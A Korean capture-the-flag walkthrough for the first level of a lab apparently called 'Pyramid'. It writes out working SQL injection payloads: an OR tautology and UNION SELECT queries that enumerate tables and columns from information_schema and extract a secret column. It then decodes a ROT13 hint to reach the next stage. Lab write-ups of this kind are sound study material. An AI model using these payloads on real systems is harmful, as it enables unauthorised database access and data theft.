


Pyramid 1단계 SQLi Walkthrough
IP 확인 후 http 접속

' OR '1'='1
가장 기본적인 SQLi 입력해보기 (모든 행을 반환)

알 수 있는 사실
1. 입력값이 필터링 없이 DB 쿼리에 직접 사용되고 있다.
2. URL에서 파라미터 name 노출되며 GET 방식으로 서버 전송되고있다.
3. php는 총 3개의 칼럼만 표시하고 있다.
4. OR이 작동하는 것으로 보아 SELECT, OR 등이 php에서 필터링 되지 않고 있다. (sql취약점존재)
1. 테이블명 추출하는 SQLi 실행
' UNION SELECT 1, group_concat(table_name), 3 FROM information_schema.tables WHERE table_schema=database() --

2번째 항목에 테이블이름 출력
2. 칼럼명을 추출하는 SQLi 실행
' UNION SELECT 1, group_concat(column_name), 3 FROM information_schema.columns WHERE table_name='pharaohs' --

2번째 항목에 모든 칼럼명 출력
3. secret_info에 담긴 최종힌트를 얻는 SQLi 실행
' UNION SELECT 1, 2, secret_info FROM pharaohs WHERE id = 6 --

최종 힌트 획득

웹 페이지 소스에 담긴 주석 힌트 : 엄청 긴 문자열

ROT13.com 에서 디코딩
"파라오의 암호는 문지기의 열쇠를 위한 것이 아니라, 펼쳐지는 나일강 지도의 논리를 위해 존재한다. 흐름을 따라 다음 방으로 나아가라."
이 문구는 SSH 접속 정보가 아님을 간접적으로 나타내며, 다음 웹 디렉토리를 이동해야 함을 비유적으로 알 수 있다.
최종 힌트를 보면 '/' 표시가 있는데, 이것을 보고 디렉토리 경로라는 것을 유추해볼 수 있다.
얻은 정보들을 바탕으로 "http://pyramidIP/the_architect_of_the_Great_Pyramid" 로 이동하면 다음 단계로 넘어간다.

trivia 칼럼의 값들을 조회해보니 어떤 문구와 함께 3000자 분량의 반복되는 문자열이 나타난다.
해석해본 결과 sqlmap 자동화 기법이 아닌 수동 SQLi를 유도하는것을 알 수 있다.
조금 더 자세한 풀이 : https://mini97.tistory.com/97 비밀번호:cmd